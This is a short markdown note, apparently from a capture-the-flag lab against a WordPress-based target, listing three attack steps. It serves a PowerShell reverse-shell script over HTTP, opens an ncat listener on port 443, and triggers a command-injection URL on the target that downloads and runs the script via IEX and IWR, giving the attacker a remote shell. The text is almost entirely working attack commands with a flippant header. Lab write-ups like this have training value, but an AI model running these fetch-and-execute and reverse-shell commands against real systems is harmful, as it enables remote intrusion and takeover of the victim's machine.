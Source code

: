 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

### 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
sudo python3 -m http.server 80

### 2. create ncat listener for shell
sudo rlwrap nc -nvlp 443

### 3. go to the updates url we went to with the sqli injection and start that script (update ip if needed)
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
